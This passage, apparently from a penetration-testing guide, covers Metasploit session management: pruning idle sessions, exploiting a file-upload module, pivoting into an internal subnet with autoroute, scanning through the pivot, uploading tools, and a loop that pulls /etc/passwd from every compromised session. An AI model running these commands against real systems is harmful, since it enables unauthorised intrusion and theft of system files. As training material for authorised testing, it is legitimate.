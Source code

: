 ### Issue 4: Too Many Sessions Consuming Resources
**Problem:** Multiple sessions causing performance issues
**Optimization:**
```bash
# Clean up unnecessary sessions
sessions -l  # Identify inactive sessions
sessions -k 2,3,5  # Kill specific unused sessions
sessions -K  # Nuclear option: kill all sessions

# Implement session rotation strategy
# Keep only essential active sessions
# Document session purposes for later re-establishment
```

## 🔗 Integration with Other Tools

### Primary Integration: MSFConsole → Session Management → Post-Exploitation Tools
```bash
# Comprehensive workflow showing session integration
use exploit/unix/webapp/xoda_file_upload  # Initial exploitation
exploit                                   # Establish session 1
background                               # Background for multitasking
run autoroute -s 192.180.108.0/24      # Configure network routing
use auxiliary/scanner/portscan/tcp       # Secondary reconnaissance
set RHOSTS 192.180.108.3               # Target through pivot
run                                     # Execute scan through session 1
sessions -i 1                           # Return to original session
upload tools.sh /tmp/                   # Deploy additional tools
```

### Secondary Integration: Session Management → Multiple Exploit Modules
```bash
# Session coordination across multiple exploits
sessions -l                             # Check current sessions
use exploit/different/module            # Launch second exploit
set payload different/payload           # Configure different payload
exploit -j                              # Run as background job
sessions -l                             # Verify multiple sessions
sessions -c "getuid"                    # Execute command on all sessions
```

### Advanced Workflows:
```bash
# Complex session management for large-scale testing
# Phase 1: Establish multiple entry points
sessions -l > current_sessions.txt      # Document session state
# Phase 2: Coordinate activities across sessions
for i in {1..5}; do sessions -i $i -c "download /etc/passwd /tmp/passwd_$i"; done
# Phase 3: Centralize collected intelligence
sessions -i 1; cd /tmp; ls -la passwd_*  # Review collected data
```
